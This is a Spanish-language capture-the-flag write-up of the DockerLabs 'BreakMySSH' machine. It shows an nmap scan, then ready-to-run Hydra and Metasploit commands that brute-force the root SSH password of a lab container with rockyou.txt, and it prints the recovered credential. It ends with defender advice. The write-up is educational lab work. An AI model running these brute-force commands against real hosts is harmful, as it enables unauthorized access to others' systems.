




# BreakMySSH — DockerLabs
 
**Dificultad:** Muy fácil | **SO:** Linux | **Fecha:** 2026-04-03  
**Autor del writeup:** [krinoxx](https://github.com/krinoxx)  
**Plataforma:** [DockerLabs](https://dockerlabs.es)
 
---
 
## Índice
 
1. [Reconocimiento](#reconocimiento)
2. [Enumeración](#enumeración)
3. [Explotación](#explotación)
   - [Método 1 — Hydra](#método-1--hydra)
   - [Método 2 — Metasploit](#método-2--metasploit)
4. [Post-explotación / Escalada de privilegios](#post-explotación--escalada-de-privilegios)
5. [Lecciones aprendidas](#lecciones-aprendidas)
 
---
 
## Reconocimiento
 
El nombre de la máquina, **BreakMySSH**, ya nos indica el vector de ataque: el servicio SSH. Antes de lanzar cualquier herramienta, desplegamos la máquina en Docker y confirmamos que el objetivo está activo en `172.17.0.2`.
 
```bash
sudo bash auto_deploy.sh breakmyssh.tar
```
 
---
 
## Enumeración
 
Lanzamos un escaneo con `nmap` para identificar puertos abiertos y versiones de servicios:
 
```bash
nmap -sV 172.17.0.2
```
 
**Resultado:**
 
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.7 (protocol 2.0)
```
 

 
**Análisis:** Solo hay un puerto abierto, el **22/TCP con OpenSSH 7.7**. Esta versión es relativamente antigua (2018) y, más importante, el hecho de que sea el único servicio expuesto confirma que el vector de ataque es exclusivamente SSH. La estrategia es clara: fuerza bruta de credenciales.
 
---
 
## Explotación
 
Dado que SSH es el único servicio disponible y no hay ninguna vulnerabilidad pública crítica directamente explotable en OpenSSH 7.7 sin credenciales, el ataque consiste en **fuerza bruta de contraseñas** contra el usuario `root`.
 
Usaremos el diccionario **rockyou.txt**, uno de los más completos para este tipo de ataques, instalado en Arch Linux mediante:
 
```bash
yay -S rockyou
# Ubicación: /usr/share/dict/rockyou.txt
```
 
---
 
### Método 1 — Hydra
 
**Hydra** es una herramienta de fuerza bruta paralela que soporta decenas de protocolos, entre ellos SSH.
 
```bash
hydra -l root -P /usr/share/dict/rockyou.txt ssh://172.17.0.2 -t 4
```
 
| Parámetro | Significado |
|-----------|-------------|
| `-l root` | Usuario fijo: root |
| `-P /usr/share/dict/rockyou.txt` | Diccionario de contraseñas |
| `ssh://172.17.0.2` | Protocolo y objetivo |
| `-t 4` | 4 hilos paralelos (evita bloqueos por rate limiting) |
 
**Resultado:**
 
```
[22][ssh] host: 172.17.0.2   login: root   password: estrella
```
 

 
✅ **Credenciales encontradas: `root:estrella`**
 
---
 
### Método 2 — Metasploit
 
**Metasploit** ofrece el módulo `auxiliary/scanner/ssh/ssh_login`, que realiza la misma función que Hydra pero dentro del framework de Metasploit, con la ventaja de abrir automáticamente una sesión si las credenciales son válidas.
 
```bash
msfconsole
```
 
```
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 172.17.0.2
set USERNAME root
set PASS_FILE /usr/share/dict/rockyou.txt
set THREADS 4
run
```
 
**Resultado:**
 
```
[+] 172.17.0.2:22 - Success: 'root:estrella'
[*] SSH session 1 opened (172.17.0.1:43761 → 172.17.0.2:22)
```
 

 
✅ **Credenciales confirmadas y sesión SSH abierta automáticamente.**
 
**¿Cuándo usar cada uno?**
 
| | Hydra | Metasploit |
|---|---|---|
| **Velocidad** | Más rápido y ligero | Más lento, más overhead |
| **Integración** | Standalone | Abre sesión automáticamente |
| **Uso ideal** | Fuerza bruta rápida | Cuando quieres seguir explotando desde MSF |
| **Flexibilidad** | Muy alta (muchos protocolos) | Alta, pero dentro del framework |
 
---
 
## Post-explotación / Escalada de privilegios
 
Con las credenciales `root:estrella`, nos conectamos directamente por SSH:
 
```bash
ssh root@172.17.0.2
# Password: estrella
```
 
Una vez dentro, comprobamos nuestro nivel de privilegios:
 
```bash
whoami
# root
 
id
# uid=0(root) gid=0(root) groups=0(root)
```
 

 
**En esta máquina no hay escalada de privilegios necesaria** — accedemos directamente como `root`. Esto es posible porque el servicio SSH tenía habilitado el login de root con contraseña, y la contraseña era débil (presente en rockyou.txt).
 
---
 
## Lecciones aprendidas
 
### Desde el punto de vista del atacante
 
- **rockyou.txt es suficiente** para contraseñas débiles. `estrella` es una palabra común en español que aparece en los primeros millones de entradas del diccionario — Hydra la encontró en segundos.
- **Hydra vs Metasploit:** Para fuerza bruta pura, Hydra es más rápido y directo. Metasploit es útil cuando quieres integrar el ataque en una cadena más larga dentro del framework.
- **El número de hilos importa:** `-t 4` es conservador pero seguro. Demasiados hilos pueden hacer que el servidor bloquee las conexiones o genere falsos negativos.
 
### Desde el punto de vista del defensor
 
- **Nunca exponer SSH con login de root habilitado** en producción. Usar usuarios con privilegios limitados y `sudo` solo cuando sea necesario.
- **Deshabilitar autenticación por contraseña** en SSH y usar exclusivamente claves públicas/privadas (`PasswordAuthentication no` en `/etc/ssh/sshd_config`).
- **Implementar fail2ban** o similar para bloquear IPs que hagan múltiples intentos fallidos.
- **Usar contraseñas fuertes** — `estrella` es un ejemplo perfecto de contraseña que nunca debería usarse en un servicio expuesto.
 
---
 
*Writeup realizado con fines educativos en un entorno controlado de DockerLabs.*
 
